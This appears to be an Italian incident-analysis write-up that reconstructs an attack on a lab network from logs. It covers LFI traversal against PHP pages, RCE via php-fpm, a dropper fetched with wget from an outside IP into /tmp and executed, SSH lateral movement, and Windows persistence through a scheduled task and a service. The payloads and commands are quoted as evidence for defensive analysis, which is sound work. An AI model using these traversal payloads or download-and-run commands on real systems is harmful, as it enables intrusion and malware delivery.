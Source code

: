 



# logs 
Web server logs
![Web server logs](../image/2a.png)

Application / Service logs
![ Application / Service logs](../image/2b.png)

Security logs
![ Security logs](../image/2c.png)



# Accesso Iniziale: Da LFI a RCE su web01
```
Recon / Exploitation (web01)
 └── 09:12:14 web01 nginx --> LFI: /reports/view.php?doc=../../../../../../etc/passwd (trace_id=tr-A)
     └── php-fpm -> 200 /etc/passwd
 └── 09:12:16 web01 nginx -> LFI: /download.php?file=../../../var/log/auth.log (trace_id=tr-B)
     └── php-fpm -> 200 /var/log/auth.log
 └── 09:12:18 web01 nginx -> LFI: /app/help.php?topic=../../../../proc/self/environ (trace_id=tr-A)
     └── auditd --> SYSCALL: php-fpm spawns /usr/bin/bash -c "id; uname -a" → RCE conf
 └── 09:15:27 web01 nginx --> Attempted LFI on config.php (trace_id=tr-A) → PHP error / php-fpm crash & restart
```


Alle 09:12:14, ho notato una richiesta GET sospetta alla pagina view.php con un parametro doc che cercava di accedere a:

`../../../../../../etc/passwd`

All’inizio può sembrare solo un test, ma dal log di php-fpm ho visto che il file /etc/passwd è stato effettivamente letto. A quel punto ho capito che il server era vulnerabile a LFI (Local File Inclusion).
Pochi secondi dopo, alle 09:12:16, un’altra richiesta simile ha colpito download.php, cercando di leggere` ../../../var/log/auth.log`. Anche questa volta, il file è stato servito con successo. Questo mi ha fatto pensare che l’attaccante stesse mappando i file interni del sistema.
Il passaggio più critico è avvenuto alle 09:12:18, con una richiesta a:

`help.php?topic=../../../../proc/self/environ`

Questa tecnica è spesso usata per ottenere variabili d'ambiente e avviare codice malevolo. Infatti, il log di auditd conferma che php-fpm ha eseguito 
`/usr/bin/bash -c "id; uname -a"` 

 Qui ho avuto la conferma... l’attaccante ha ottenuto esecuzione di comandi sul server , quindi siamo passati da LFI a RCE (Remote Code Execution).
Infine, alle 09:15:27, è stato fatto un tentativo su export.php per leggere il file config.php. Ma qualcosa è andato storto.. il php-fpm ha generato un errore e si è bloccato, come confermato dai log di sistema. Il servizio si è poi riavviato automaticamente.
In breve, l’attaccante è partito leggendo file di sistema, ma è riuscito ad arrivare all’esecuzione remota di comandi. Un’escalation chiara e pericolosa.


# Fase di Attacco: Consegna del Payload su web01
```
 Consegna del Payload su web01
 └── 09:18:41 web01 nginx -> LFI: /download.php?file=../../../../etc/hosts (trace_id=tr-B)
     └── 09:18:42 auditd -> wget http://198.51.100.91/.s → saved as /tmp/.svc
     └── 09:19:03 auditd -> chmod +x /tmp/.svc
     └── 09:19:07 auditd  --> /tmp/.svc --ping (dropper)
```
Alle 09:18:41, ho visto un’altra richiesta LFI, questa volta rivolta a download.php con il parametro `file=../../../../etc/hosts` . A prima vista sembrava simile alle precedenti, ma subito dopo ho notato qualcosa di diverso.
Solo un secondo dopo, alle 09:18:42, auditd registra un comando wget che scarica un file da un server esterno (IP: 198.51.100.91) e lo salva come /tmp/.svc. Questo file mi ha subito fatto pensare a un dropper, cioè un piccolo programma usato per caricare malware.
Poco dopo, alle 09:19:03, il file viene reso eseguibile con `chmod +x /tmp/.svc` , e finalmente, alle 09:19:07, viene eseguito con il comando:
`/tmp/.svc –ping`

Questo mi conferma che il payload è stato non solo consegnato, ma anche attivato. A quel punto, l’attaccante aveva un suo file eseguibile in funzione sul server ...segno chiaro che l'infezione era in corso.

# Movimento Laterale: Tentativo da web01 verso win01

```
Movimento Laterale-- Tentativo web01 -> win01
 └── 09:21:05 web01 auditd -> python3 one-liner to ssh admin@win01 (trace_id=tr-A)
     └── 09:24:11 win01 Security -> 4625 admin from 10.10.5.21
     └── 09:24:59 win01 Security -> 4624 logon svc_webapp from 10.10.5.21

```
Alle 09:21:05, ho notato un comando eseguito tramite python3 da web01 che cercava di avviare una sessione SSH con l’utente admin@win01. Era una one-liner classica, del tipo usato per tentare un accesso veloce e silenzioso.
Il tentativo però fallisce, come indicato nel log di sicurezza di win01 alle 09:24:11, che riporta un errore di accesso per l’utente admin proveniente dall’indirizzo IP 10.10.5.21 (cioè il server web01). Fin qui, sembrava solo un test o un primo tentativo manuale.
Ma alle 09:24:59, la situazione cambia: c’è un accesso riuscito, stavolta con l’utente svc_webapp, dallo stesso IP. Questo suggerisce che l’attaccante aveva già credenziali valide per questo account o che le aveva ottenute poco prima. A quel punto, era riuscito a spostarsi dal server Linux (web01) al sistema Windows (win01) ...movimento laterale completato.

# Persistenza: Installazione di Meccanismi su win01

```
Persistenza su win01
 └── 09:25:07 TaskScheduler EventID=106 -> Task registered "\System\UpdaterCache"
     Action = powershell.exe -File C:\ProgramData\upc.ps1 (trace_id=tr-B)
 └── 09:25:11 Sysmon 11 -> FileCreate C:\ProgramData\upc.ps1 (powershell.exe)
 └── 09:25:42 SCM EventID=7045 --> Service inst "WinCacheSvc" → wincache.exe auto-start
 └── 09:26:03 TaskScheduler EventID=201 --> Task "\System\UpdaterCache" str
```
Subito dopo l’accesso riuscito, l’attaccante inizia a stabilire persistenza sul sistema win01. 
09:25:07, ho visto che viene registrato un nuovo task pianificato chiamato \System\UpdaterCache. L’azione associata al task esegue powershell.exe con uno script:

`C:\ProgramData\upc.ps1`

Quattro minuti dopo, alle 09:25:11, Sysmon conferma la creazione del file upc.ps1, eseguito tramite PowerShell. Questo mi fa pensare che il file sia stato generato dinamicamente proprio in quel momento, probabilmente da un comando remoto.
Poi, alle 09:25:42, un nuovo servizio di sistema viene installato: WinCacheSvc, con wincache.exe impostato per l’avvio automatico. Questo è un classico esempio di persistenza tramite servizio Windows .... una tecnica usata per sopravvivere ai riavvii del sistema.
Infine, alle 09:26:03, il task pianificato UpdaterCache viene effettivamente avviato. A questo punto è chiaro: l’attaccante non solo ha avuto accesso al sistema, ma ha anche piazzato meccanismi per restare attivo nel tempo.


